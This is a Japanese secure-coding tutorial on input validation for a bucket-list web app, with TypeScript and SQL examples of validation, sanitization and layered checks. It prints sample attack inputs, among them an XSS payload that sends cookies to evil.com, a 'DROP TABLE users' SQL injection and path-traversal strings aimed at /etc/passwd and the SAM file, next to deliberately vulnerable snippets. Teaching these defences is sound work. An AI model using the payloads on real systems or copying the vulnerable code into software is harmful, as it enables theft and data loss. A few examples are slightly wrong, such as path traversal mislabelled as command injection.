


# 入力値検証

## 🎯 学習目標

- 入力値検証の重要性を理解する
- 検証とサニタイゼーションの違いを知る
- クライアントサイドとサーバーサイドの役割分担を学ぶ
- 実際の攻撃事例と対策を理解する
- バケットリストアプリでの実装を詳細に分析する

## 🛡️ 入力値検証とは

### 📝 基本概念

**入力値検証** は、外部から受け取るデータが期待される形式・内容・範囲に合致しているかをチェックする仕組みです。



### 🤔 なぜ入力値検証が重要なのか

#### 🏴‍☠️ 攻撃者の入力例

```typescript
// 攻撃者が悪意のある入力を送信する例
const maliciousInputs = {
  // XSS攻撃
  name: "<script>alert('XSS!');</script>",
  
  // SQLインジェクション
  email: "'; DROP TABLE users; --",
  
  // コマンドインジェクション
  filename: "../../etc/passwd",
  
  // バッファオーバーフロー
  comment: "A".repeat(1000000),
  
  // LDAP インジェクション
  username: "admin)(uid=*",
  
  // パストラバーサル
  path: "../../../windows/system32/config/sam"
};
```

#### 😱 対策なしの場合の被害

```typescript
// ❌ 危険：入力値検証なし
function createUser(data: any) {
  // 直接データベースに保存（危険！）
  const sql = `INSERT INTO users (name, email) VALUES ('${data.name}', '${data.email}')`;
  database.query(sql);
  
  // 直接HTMLに出力（危険！）
  document.getElementById('welcome').innerHTML = `こんにちは、${data.name}さん！`;
}

// 攻撃者の入力:
createUser({
  name: "<script>document.location='http://evil.com?cookie='+document.cookie</script>",
  email: "'; DROP TABLE users; --"
});

// 結果:
// 1. XSS攻撃でCookieが盗まれる
// 2. SQLインジェクションでusersテーブルが削除される
```

## 🔍 検証 vs サニタイゼーション

### 📊 違いの理解

| 項目 | 検証 (Validation) | サニタイゼーション (Sanitization) |
|------|-------------------|-----------------------------------|
| **目的** | 入力値が有効かどうかを判定 | 危険な文字を安全な形に変換 |
| **処理** | チェックのみ（変更しない） | データを変更する |
| **結果** | 合格/不合格 | 安全化されたデータ |
| **タイミング** | 処理前 | 処理・表示前 |

### 🔧 実装例

#### 1. **検証 (Validation)**

```typescript
// app/lib/security-utils.ts より
export const validators = {
  email: (email: string): boolean => {
    const emailRegex =
      /^[a-zA-Z0-9.!#$%&'*+/=?^_`{|}~-]+@[a-zA-Z0-9](?:[a-zA-Z0-9-]{0,61}[a-zA-Z0-9])?(?:\.[a-zA-Z0-9](?:[a-zA-Z0-9-]{0,61}[a-zA-Z0-9])?)*$/;
    return emailRegex.test(email);
  },

  password: (
    password: string,
  ): { valid: boolean; score: number; feedback: string[] } => {
    const feedback: string[] = [];
    let score = 0;

    if (password.length >= 8) score += 1;
    else feedback.push("8文字以上である必要があります");

    if (/[a-z]/.test(password)) score += 1;
    else feedback.push("小文字を含める必要があります");

    if (/[A-Z]/.test(password)) score += 1;
    else feedback.push("大文字を含める必要があります");

    if (/\d/.test(password)) score += 1;
    else feedback.push("数字を含める必要があります");

    return {
      valid: score >= 3,
      score,
      feedback,
    };
  },

  url: (url: string): boolean => {
    try {
      new URL(url);
      return true;
    } catch {
      return false;
    }
  },
};
```

#### 2. **サニタイゼーション (Sanitization)**

```typescript
// app/lib/security-utils.ts より
// XSS対策：文字列のサニタイズ
export const sanitizeString = (str: string): string => {
  const map: Record<string, string> = {
    "&": "&amp;",
    "<": "&lt;",
    ">": "&gt;",
    '"': "&quot;",
    "'": "&#x27;",
    "/": "&#x2F;",
  };

  return str.replace(/[&<>"'\/]/g, (s) => map[s]);
};

// より高度なサニタイゼーション
export class SecurityValidator {
  // 高度なXSS対策
  static sanitizeInput(input: string): string {
    if (typeof input !== "string") return "";

    return (
      input
        // HTMLエンティティエンコード
        .replace(/&/g, "&amp;")
        .replace(/</g, "&lt;")
        .replace(/>/g, "&gt;")
        .replace(/"/g, "&quot;")
        .replace(/'/g, "&#x27;")
        .replace(/\//g, "&#x2F;")
        // JavaScript プロトコル除去
        .replace(/javascript:/gi, "")
        // データURL除去
        .replace(/data:/gi, "")
        // イベントハンドラ除去
        .replace(/on\w+\s*=/gi, "")
        // style属性除去
        .replace(/style\s*=/gi, "")
        .trim()
    );
  }
}
```

## 🎯 バケットリストアプリでの実装

### 📝 実際の検証フロー

```typescript
// app/features/auth/lib/auth-context.tsx より
const signIn = async (email: string, password: string) => {
  try {
    // 1. 入力検証
    if (!email || !password) {
      return { error: { message: "メールアドレスとパスワードは必須です" } };
    }

    // 2. メールアドレス形式の基本チェック
    const emailRegex = /^[^\s@]+@[^\s@]+\.[^\s@]+$/;
    if (!emailRegex.test(email)) {
      return { error: { message: "メールアドレスの形式が正しくありません" } };
    }

    // 3. サニタイゼーション
    const { error } = await supabase.auth.signInWithPassword({
      email: email.toLowerCase().trim(),  // 正規化
      password,
    });

    return { error };
  } catch (error) {
    console.error("Unexpected sign in error:", error);
    return { error: { message: "予期しないエラーが発生しました" } };
  }
};
```

### 🔄 多段階の検証



## 🛡️ 検証のレイヤー

### 1. **クライアントサイド検証**

```typescript
// リアルタイム検証の例
function useFormValidation<T>(initialValues: T, validationRules: ValidationRules<T>) {
  const [values, setValues] = useState(initialValues);
  const [errors, setErrors] = useState<Partial<Record<keyof T, string>>>({});
  const [touched, setTouched] = useState<Partial<Record<keyof T, boolean>>>({});

  const validateField = (name: keyof T, value: any) => {
    const rule = validationRules[name];
    if (!rule) return "";

    // 必須チェック
    if (rule.required && (!value || value.toString().trim() === "")) {
      return `${String(name)}は必須です`;
    }

    // 型チェック
    if (value && rule.type) {
      switch (rule.type) {
        case "email":
          if (!validators.email(value)) {
            return "有効なメールアドレスを入力してください";
          }
          break;
        case "url":
          if (!validators.url(value)) {
            return "有効なURLを入力してください";
          }
          break;
      }
    }

    // 長さチェック
    if (value && rule.minLength && value.length < rule.minLength) {
      return `${rule.minLength}文字以上で入力してください`;
    }
    if (value && rule.maxLength && value.length > rule.maxLength) {
      return `${rule.maxLength}文字以下で入力してください`;
    }

    // カスタムバリデーション
    if (value && rule.custom) {
      const customError = rule.custom(value);
      if (customError) return customError;
    }

    return "";
  };

  const handleChange = (name: keyof T, value: any) => {
    setValues(prev => ({ ...prev, [name]: value }));
    
    // リアルタイム検証
    if (touched[name]) {
      const error = validateField(name, value);
      setErrors(prev => ({ ...prev, [name]: error }));
    }
  };

  const handleBlur = (name: keyof T) => {
    setTouched(prev => ({ ...prev, [name]: true }));
    const error = validateField(name, values[name]);
    setErrors(prev => ({ ...prev, [name]: error }));
  };

  return { values, errors, touched, handleChange, handleBlur };
}

// 使用例
interface LoginForm {
  email: string;
  password: string;
}

const validationRules: ValidationRules<LoginForm> = {
  email: {
    required: true,
    type: "email"
  },
  password: {
    required: true,
    minLength: 8,
    custom: (value) => {
      const result = validators.password(value);
      return result.valid ? "" : result.feedback[0];
    }
  }
};

function LoginForm() {
  const { values, errors, handleChange, handleBlur } = useFormValidation(
    { email: "", password: "" },
    validationRules
  );

  return (
    <form>
      <input
        type="email"
        value={values.email}
        onChange={(e) => handleChange("email", e.target.value)}
        onBlur={() => handleBlur("email")}
      />
      {errors.email && <span className="error">{errors.email}</span>}
      
      <input
        type="password"
        value={values.password}
        onChange={(e) => handleChange("password", e.target.value)}
        onBlur={() => handleBlur("password")}
      />
      {errors.password && <span className="error">{errors.password}</span>}
    </form>
  );
}
```

### 2. **サーバーサイド検証**

```typescript
// API レベルでの検証
interface ValidationSchema {
  [key: string]: {
    type: "string" | "number" | "boolean" | "email" | "url";
    required?: boolean;
    minLength?: number;
    maxLength?: number;
    pattern?: RegExp;
    custom?: (value: any) => string | null;
  };
}

class ServerValidator {
  static validate(data: any, schema: ValidationSchema): ValidationResult {
    const errors: Record<string, string> = {};

    for (const [field, rules] of Object.entries(schema)) {
      const value = data[field];

      // 必須チェック
      if (rules.required && (value === undefined || value === null || value === "")) {
        errors[field] = `${field}は必須です`;
        continue;
      }

      // 値が存在する場合のみ以下の検証を実行
      if (value !== undefined && value !== null && value !== "") {
        // 型チェック
        if (!this.checkType(value, rules.type)) {
          errors[field] = `${field}の形式が正しくありません`;
          continue;
        }

        // 長さチェック
        if (rules.minLength && value.length < rules.minLength) {
          errors[field] = `${field}は${rules.minLength}文字以上である必要があります`;
          continue;
        }

        if (rules.maxLength && value.length > rules.maxLength) {
          errors[field] = `${field}は${rules.maxLength}文字以下である必要があります`;
          continue;
        }

        // パターンチェック
        if (rules.pattern && !rules.pattern.test(value)) {
          errors[field] = `${field}の形式が正しくありません`;
          continue;
        }

        // カスタム検証
        if (rules.custom) {
          const customError = rules.custom(value);
          if (customError) {
            errors[field] = customError;
            continue;
          }
        }
      }
    }

    return {
      isValid: Object.keys(errors).length === 0,
      errors
    };
  }

  private static checkType(value: any, type: string): boolean {
    switch (type) {
      case "string":
        return typeof value === "string";
      case "number":
        return typeof value === "number" && !isNaN(value);
      case "boolean":
        return typeof value === "boolean";
      case "email":
        return typeof value === "string" && validators.email(value);
      case "url":
        return typeof value === "string" && validators.url(value);
      default:
        return true;
    }
  }
}

// 使用例：API エンドポイント
app.post("/api/bucket-items", async (req, res) => {
  // 入力値検証
  const schema: ValidationSchema = {
    title: { type: "string", required: true, minLength: 1, maxLength: 100 },
    description: { type: "string", maxLength: 500 },
    category: { type: "string", required: true },
    priority: { type: "string", pattern: /^(high|medium|low)$/ },
    due_date: { 
      type: "string", 
      custom: (value) => {
        const date = new Date(value);
        return isNaN(date.getTime()) ? "有効な日付を入力してください" : null;
      }
    }
  };

  const validation = ServerValidator.validate(req.body, schema);
  
  if (!validation.isValid) {
    return res.status(400).json({
      error: "入力値に誤りがあります",
      details: validation.errors
    });
  }

  // サニタイゼーション
  const sanitizedData = {
    title: sanitizeString(req.body.title),
    description: sanitizeString(req.body.description || ""),
    category: req.body.category,
    priority: req.body.priority,
    due_date: req.body.due_date
  };

  // データ保存処理
  try {
    const result = await createBucketItem(sanitizedData);
    res.json(result);
  } catch (error) {
    res.status(500).json({ error: "サーバーエラーが発生しました" });
  }
});
```

### 3. **データベースレベル検証**

```sql
-- データベース制約による最後の砦
CREATE TABLE bucket_items (
  id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  title VARCHAR(100) NOT NULL CHECK (LENGTH(title) > 0),
  description TEXT CHECK (LENGTH(description) <= 500),
  category VARCHAR(50) NOT NULL,
  priority VARCHAR(10) CHECK (priority IN ('high', 'medium', 'low')),
  due_date DATE CHECK (due_date >= CURRENT_DATE),
  user_id UUID NOT NULL REFERENCES auth.users(id),
  created_at TIMESTAMP WITH TIME ZONE DEFAULT NOW(),
  updated_at TIMESTAMP WITH TIME ZONE DEFAULT NOW()
);
```

## 🚨 実際の攻撃パターンと対策

### 1. **XSS攻撃の例**

```typescript
// ❌ 脆弱性のあるコード
function displayUserName(name: string) {
  document.getElementById('welcome').innerHTML = `こんにちは、${name}さん！`;
}

// 攻撃者の入力
displayUserName('');

// ✅ 対策済みコード
function displayUserNameSafe(name: string) {
  const sanitized = sanitizeString(name);
  document.getElementById('welcome').textContent = `こんにちは、${sanitized}さん！`;
}
```

### 2. **SQLインジェクション攻撃の例**

```typescript
// ❌ 脆弱性のあるコード（例）
function findUser(email: string) {
  const query = `SELECT * FROM users WHERE email = '${email}'`;
  return database.query(query);
}

// 攻撃者の入力
findUser("'; DROP TABLE users; --");
// 実行されるSQL: SELECT * FROM users WHERE email = ''; DROP TABLE users; --'

// ✅ 対策：パラメータ化クエリ（Supabaseの場合）
async function findUserSafe(email: string) {
  const { data, error } = await supabase
    .from('users')
    .select('*')
    .eq('email', email);  // Supabaseが自動的にサニタイズ
  
  return { data, error };
}
```

## 📊 検証のパフォーマンス最適化

### ⚡ 効率的な検証

```typescript
// 検証の最適化
class OptimizedValidator {
  // 事前コンパイルされた正規表現
  private static readonly EMAIL_REGEX = /^[^\s@]+@[^\s@]+\.[^\s@]+$/;
  private static readonly URL_REGEX = /^https?:\/\/.+/;

  // メモ化による検証結果キャッシュ
  private static validationCache = new Map<string, boolean>();

  static validateEmail(email: string): boolean {
    const cacheKey = `email:${email}`;
    
    if (this.validationCache.has(cacheKey)) {
      return this.validationCache.get(cacheKey)!;
    }

    const isValid = this.EMAIL_REGEX.test(email);
    this.validationCache.set(cacheKey, isValid);
    
    return isValid;
  }

  // バッチ検証
  static validateBatch(items: Array<{ field: string; value: any; type: string }>) {
    const results = [];
    
    for (const item of items) {
      try {
        const isValid = this.validateByType(item.value, item.type);
        results.push({ field: item.field, isValid, error: null });
      } catch (error) {
        results.push({ field: item.field, isValid: false, error: error.message });
      }
    }
    
    return results;
  }

  // 非同期検証（重い処理用）
  static async validateAsync(value: string, type: string): Promise<boolean> {
    return new Promise((resolve) => {
      // Web Worker を使用して重い検証処理を非同期実行
      const worker = new Worker('/js/validation-worker.js');
      worker.postMessage({ value, type });
      worker.onmessage = (event) => {
        resolve(event.data.isValid);
        worker.terminate();
      };
    });
  }
}
```

## 🎯 重要なポイント

### ✅ 入力値検証のベストプラクティス

1. **多層防御**: クライアント + サーバー + データベース
2. **ホワイトリスト方式**: 許可する文字・形式を明確に定義
3. **早期検証**: 可能な限り早い段階で不正な入力を検出
4. **適切なエラーメッセージ**: ユーザーフレンドリーで具体的
5. **性能考慮**: 重い検証処理は非同期化

### ❌ よくある間違い

```typescript
// ❌ 悪い例
function badValidation(input: string) {
  // ブラックリスト方式（穴が多い）
  if (input.includes("<script>")) {
    return false;
  }
  return true; // <Script> や <SCRIPT> は通してしまう
}

// ❌ クライアントサイドのみの検証
function clientOnlyValidation() {
  if (!validateEmail(email)) {
    return; // サーバーは無検証で処理
  }
  submitToServer(email);
}

// ✅ 良い例
function goodValidation(input: string) {
  // ホワイトリスト方式
  const allowedPattern = /^[a-zA-Z0-9\s.,!?-]+$/;
  return allowedPattern.test(input) && input.length <= 1000;
}

function properValidation() {
  // クライアントサイド検証
  if (!validateEmail(email)) {
    showError("メール形式が正しくありません");
    return;
  }
  
  // サーバーサイドでも再検証
  submitToServer(email).catch(error => {
    if (error.status === 400) {
      showError("入力値に誤りがあります");
    }
  });
}
```

## 🚀 次のステップ

入力値検証の仕組みが理解できたら、次は **[XSS攻撃対策](./xss-prevention.md)** で、クロスサイトスクリプティング攻撃の詳細な対策について学びましょう。

XSS攻撃の種類、実際の攻撃手法、そして効果的な防御策を具体的に学習します。